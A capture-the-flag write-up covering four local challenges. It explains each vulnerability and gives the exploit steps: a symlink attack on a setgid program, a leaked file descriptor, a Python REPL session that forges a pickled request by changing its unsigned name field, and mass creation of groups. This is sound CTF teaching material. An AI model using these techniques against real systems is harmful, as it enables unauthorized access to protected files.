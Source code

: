 Simple
======

Files
-----

    -rwxr-sr-x 1 root simple  5266 Apr  6 02:08 simple
    -rw-r--r-- 1 root root     363 Apr  6 02:08 simple.c
    -rw-r----- 1 root simple    33 Apr  6 02:00 simple.flag
    -rw-r--r-- 1 root root      33 Apr  6 01:59 simple.not.the.flag

Synopsis
--------

This program opens a file named "simple.not.the.flag" and prints its contents.
The file containing the flag is named "/flags/simple.flag".

Vulnerability
-------------

The open call looks in the current directory for a file named
"simple.not.the.flag" and will follow symlinks, rather than opening the
intended file named "/flags/simple.not.the.flag" which the unprivileged user
has no control over.

Exploit
-------

Change the current directory to one in which we have write permissions.
    cd ~
Create a symlink named "simple.not.the.flag" that points to the flag file we
want.
    ln -s /flags/simple.flag simple.not.the.flag
Run the program from this directory.
    /flags/simple

Exec
====

Files
-----

    -rwxr-sr-x 1 root exec    6477 Apr  5 22:50 exec
    -rw-r--r-- 1 root root     883 Apr  5 22:50 exec.c
    -rw-r----- 1 root exec      33 Apr  5 00:32 exec.flag

Synopsis
--------

This program:
1. Opens the flag file "/flags/exec.flag".
2. Reads it into memory.
3. Forks a child process.
4. Drops privileges in the child process before executing a user-specified
program.
5. Waits for the child to exit.

Vulnerability
-------------

The program forgets to close the open file descriptor to the flag file before
execing the user-specified program in step 4. Step 2 is simply misdirection
supported by comments in the code.

Exploit
-------

Write a program which performs the following operations on file descriptor
number 3:
1. Seeks to the beginning of the file.
2. Reads the contents of the file and prints it out.
Run the exec program given the name of the our exploit program to execute.

RSA
===

Files
-----

    -rwxr-xr-x 1 root root     217 Apr  6 00:41 make-keys.rsa
    -rw-r----- 1 root rsa       33 Apr  5 23:19 rsa.flag
    -rw-r----- 1 root rsa     1600 Apr  6 00:48 rsa.keys
    -rwxr-xr-x 1 root root    1966 Apr  6 23:12 rsa.py
    -rwxr-sr-x 1 root rsa     5794 Apr  6 20:19 rsa-runner
    -rw-r--r-- 1 root root     468 Apr  6 20:19 rsa-runner.c

Synopsis
--------

The make-keys.rsa program is a python script which generates the rsa.keys
keystore containing a private and public key for "Alice" and a public key for
"Bob".
The rsa-runner program is a setgid wrapper for rsa.py, since interpred scripts
cannot be run setgid.
The rsa.py program reads the flag file and the keystore into memory and then
starts a TCPServer to handle requests. When a request is received it is
unpickled into a python object and the "request" property is examined.
If the request property is the string "start" a new python object with the
following properties is pickled and sent to the remote peer:
name = "Alice"
request = "get_flag"
keyid = MD5(DER encoding of Alice's public key)
signature = Sig(request + ":" + AsciiHex(keyid), Alice's private key)
If the request property is the string "get_flag" the message must pass these
tests before the flag is sent to the remote peer:
The the name property must exist in the keystore.
The keyid property must match the MD5 hash of a key in the keystore.
The name must not be the string "Alice".
The signature is validated against the key in the keystore which matches the
keyid property.

Vulnerability
-------------

The name property is not covered by the signature, nor is it checked against
keyid, nor is it used to select the signature verification key, so it can be
modified without detection leaving a "valid" get_flag request.

Exploit
-------

Using the python REPL, connect to the rsa.py server, send the "start" request,
and unpickle the response.
    >>> import socket, pickle
    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> class Request:
    ...    pass
    ...
    >>> msg = Request()
    >>> msg.request='start'
    >>> sock.sendall(pickle.dumps(msg))
    >>> buf = sock.recv(1024)
    >>> msg2 = pickle.loads(buf)
Reconnect to the server (this has something to do with the way I coded rsa.py),
modify the name property of the reponse to "Bob" and send it back.
    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> msg2.name='Bob'
    >>> sock.sendall(pickle.dumps(msg2))
Consume the response and unpickle it.
    >>> buf = sock.recv(1024)
    >>> pickle.loads(buf)

Lottery
=======

Files
-----

    -rw-r----- 1 root 1666   33 Apr  5 22:33 lottery.flag

Synopsis
--------

This is simply a flag file that can only be read by group 1666.

Vulnerability
-------------

The CTF website allows competitors to create a user and group for themselves.

Exploit
-------

Write a script to create users and groups until group number 1666 is assigned.
